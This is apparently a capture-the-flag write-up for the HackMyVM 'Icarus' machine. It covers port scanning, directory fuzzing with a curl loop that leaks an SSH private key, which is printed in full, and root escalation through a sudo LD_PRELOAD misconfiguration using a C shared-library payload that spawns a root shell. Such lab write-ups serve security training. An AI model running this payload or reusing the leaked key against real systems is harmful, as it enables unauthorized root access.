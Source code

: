 ```yaml
---
layout: post
author: kohaku
title:  "Icarus"
date:   2021-12-31 12:53:19 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Icarus)

# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Wed Dec 29 19:10:34 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.23
Nmap scan report for 192.168.0.23
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b6:65:56:40:8d:a8:57:b9:15:1e:0e:1f:a5:d0:52:3a (RSA)
|   256 79:65:cb:2a:06:82:13:d3:76:6b:1c:55:cd:8f:07:b7 (ECDSA)
|_  256 b1:34:e5:21:a0:28:30:c0:6c:01:0e:b0:7b:8f:b8:c6 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 19:10:41 2021 -- 1 IP address (1 host up) scanned in 7.62 seconds
{% endhighlight %}

# Port 80

We have a login page. Tried admin/admin and sqlmap, but found nothing 

## Fuzzing

{% highlight bash %}
gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
{% endhighlight %}

{% highlight bash %}
/login.php            (Status: 302) [Size: 0] [--> index.php]
/xml                  (Status: 200) [Size: 1]
/a                    (Status: 200) [Size: 9641]
/index.php            (Status: 200) [Size: 407]
/xxx                  (Status: 200) [Size: 1]
/check.php            (Status: 200) [Size: 21]
------ SNIP ------
/xch                  (Status: 200) [Size: 1]
/xfm                  (Status: 200) [Size: 1]
{% endhighlight %}

Use curl to make a request to `/a` returns a lot of letters. We can use this to fuzzing 

{% highlight bash %}
curl "http://%IP/a" > url
{% endhighlight %}

{% highlight bash %}
for i in $(cat url); do curl "http://%IP/$i" >> curl.output; done
{% endhighlight %}

This for will loop every word and make a request, sending the output to a file

{% highlight bash %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA5xagxLiN5ObhPjNcs2I2ckcYrErKaunOwm40kTBnJ6vrbdRYHteS
afNWC6xFFzwO77+Kze229eK4ddZcwmU0IdN02Y8nYrxhl8lOc+e5T0Ajz+tRmLGoxJVPsS
TzKBERlWpKuJoGO/CEFLOv6PP6s79YYzZFpdUjaczY96jgICftzNZS+VkBXuLjKr79h4Tw
z7BK4V6FEQY0hwT8NFfNrF3x3VPe0UstdiUJFl4QV/qAPlHVhPd0YUEPr/95mryjuGi1xw
P7xVFrYyjLfPepqYHiS5LZxFewLWhhSjBOI0dzf/TwiNRnVGTZhB3GemgEIQRAam26jkZZ
3BxkrUVckQAAA8jfk7Jp35OyaQAAAAdzc2gtcnNhAAABAQDnFqDEuI3k5uE+M1yzYjZyRx
isSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydi
vGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzN
j3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX
+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9P
CI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyRAAAAAwEAAQAAAQEAvdjwMU1xfTlUmPY3
VUP9ePsBwSIck6ML8t35H8KFLKln3C4USxpNNe/so+BeTo1PtBVHYpDFu9IMOvrl7+qW3q
dLGyUpdUtQXhPK+RvJONt30GwB+BEUlpQYCW9SuHr1WCwfwPMA5iNdT2ijvx0ZvKwZYECJ
DYlB87yQDz7VCnRTiQGP2Mqiiwb7vPd/t386Y+cAz1cVl7BnHzWWJTUTkKCwijnvjYrD0o
tTQX4sGd6CrI44g+L8hnYuCZz+a0j6IyUfXJqj6l+/Z2Af7pJjbJD3P28xX7eY0h1Cec2l
/sb7qg2wy0qJNywJ35l8bZzZKjkXztPLOqMFQ6Fh0BqSdQAAAIEAlaH0ZEzJsZoR3QqcKl
xRKjVcuQCwcrKlNbJu2qRuUG812CLb9jJxJxacJPBV0NS832c+hZ3BiLtA5FwCiGlGq5m5
HS3odf3lLXDfIK+pur4OWKBNLDxKbqi4s4M05vR4gHkmotiH9eWlCNuqL46Ip5H1vFXeJM
pLRLN0gqOGuQQAAACBAPfffuhidAgUZH/yTvATKC5lcGrE7bkpOq+6XMMgxEQl0Hzry76i
rGXkhTY4QUtthYo4+g7jiDzKlbeaS7aN8RYq38GzQnZZQcSdvL1yB/N554gQvzJLvmKQbm
gLhMRcdDmifUelJYXib2Mjg/BLaRXaEzOomUKR2nyJH7VgU+xzAAAAgQDuqkBp44indqhx
wrzbfeLnzQqpZ/rMZXGcvJUttECRbLRfohUftFE5J0PKuT8w0dpacNCVgkT9A0Tc3xRfky
ECBQjeKLvdhcufJhQl0pdXDt1cpebE50LE4yHc8vR6FEjhR4P2AbGICJyRS7AX7UnrOWdU
IE3FeNP0r5UiSDq16wAAAA1pY2FydXNAaWNhcnVzAQIDBA==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

The output is a private key

# User

We can get the user of the private key using `ssh-keygen` 

{% highlight bash %}
ssh-keygen -y -f id_rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnFqDEuI3k5uE+M1yzYjZyRxisSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydivGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzNj3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9PCI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyR icarus@icarus
{% endhighlight %}

The user is icarus 

# Root

{% highlight bash %}
sudo -l

Matching Defaults entries for icarus on icarus:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icarus may run the following commands on icarus:
    (ALL : ALL) NOPASSWD: /usr/bin/id
{% endhighlight %}

The real trick here it’s the `env_keep+=LD_PRELOAD`

[Linux Privilege Escalation using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Follow this guide we can create a C script and make this script a shared library

Change to /tmp directory and create a C script

{% highlight bash %}
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
{% endhighlight %}

And run the following commands

{% highlight bash %}
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so id
{% endhighlight %}